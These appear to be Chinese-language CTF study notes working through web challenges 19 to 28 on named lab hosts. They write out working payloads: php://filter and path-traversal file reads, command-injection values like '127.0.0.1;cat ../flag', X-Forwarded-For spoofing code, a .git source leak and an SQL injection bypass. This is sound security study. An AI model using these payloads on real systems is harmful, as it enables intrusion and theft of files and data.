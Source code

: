### 第十九題 LFI(Local File Inclusion)
這題是php那邊會發現網址，有被動手腳php://filter/read=convert.base64-encode/resource=./index，加上這個東西，接噴出一大串加密網頁，在decode回去
- 漏洞原因
    主要是php文件里include, require,include_once, require-once 函数不恰当使用引起的。
    
### 第二十題   (http://ctf.hackersir.org:10016/index.php?source)
解出這個東西
a:1:{s:7:"user_id";i:11;}
a%3A1%3A%7Bs%3A7%3A%22user_id%22%3Bi%3A11%3B%7D
![](https://i.imgur.com/J1LJDdW.png)

### 第二十一題
- [參考網址](https://blog.csdn.net/xiangshangbashaonian/article/details/801573)
- google取得IP方式發現，假IP都是來自於X-Forwarded-For 這個東西，所以更改他向伺服器請求然後就可以更改正確ip位置。


```python=

import requests
url="http://ctf.hackersir.org:10021/"
requests.get(url,headers={'X-Forwarded-For'
 : '127.0.0.1'})
print(requests.get(url,headers={'X-Forwarded-For'
 : '127.0.0.1'}).text)  
```
### 第二十二題 robot.txt
![](https://i.imgur.com/6UJpiNl.png)
robot.txt然後![](https://i.imgur.com/1exfc5j.png)

### 第二十三題 [BreakAllCTF](http://140.110.112.32:1001/)
直接就在 source
### 第二十四提 [GitHack](http://140.110.112.32:4004)
- 有/.git/ 漏洞，因為說source 外流
- 載下來[GitHack](https://github.com/lijiejie/GitHack)
![](https://i.imgur.com/dR3z7HV.png)

### 第二十五題[DVWA](http://43.247.91.228:81/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=include.php)
- page=php://filter/convert.base64-encode/resource=include.php
- 示範噴出網頁php內容

### 第二十題[CommandCTF](http://140.110.112.32:1004/index.php)
127.0.0.1;cat ../flag
### 第二十七題[LFI](http://140.110.112.32:2003/index.php?page=index.php)
http://140.110.112.32:2003/index.php?page=../../../../../flag
### 第二十七題[DVWA_Command Execution](http://43.247.91.228:81/vulnerabilities/exec/#)
- 127.0.0.1 local host
- +上 ; | & ls 
- 發現有東西127.0.0.1;ls source -al
- al 用來看為檔案ORfile
### 第二十八題[SQL injection](http://120.114.62.45:2002/index.php)
' /*!or*/ 1=1 #